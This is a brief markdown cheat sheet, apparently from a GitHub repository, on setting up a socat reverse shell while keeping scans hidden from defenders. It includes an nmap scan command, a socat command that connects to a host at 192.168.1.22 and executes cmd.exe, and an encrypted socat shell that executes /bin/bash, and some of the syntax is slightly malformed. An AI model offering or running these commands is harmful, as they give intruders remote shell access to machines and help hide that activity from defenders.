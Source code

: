 # Socat Reverse Shell
Steps to ensure our tools and scans stay hidden. 

## 1. Choose an interface to monitor
`ip a` - View networking information

`eth0` - Selected interface

## 2. Setup a Filter in Wireshark & Capture
Set `tcp.port == 23` in the filter and press capture to monitor traffic.

## 3. Run Scan
`nmap -sV -sC 192.168.1.1 23` 

## 4. View results in Wireshark
By default "Nmap" is printed as the User-Agent making it easily detectiable by defenders. 

## 5. Socat Reverse Shell
A reverse shell gives you access back to the target computer.

```sh
socat -d TCP4-LISTEN:23, fork STDOUT
#or
socat.exe TCP4:192.168.1.22:23 EXEC:'cmd.exe', pipes

```

## 6. Use Encryption

```sh
socat OPENSSL-LISTEN:443,cert-bind_shell.pem,verify=0,fork EXEC:/bin/bash
```


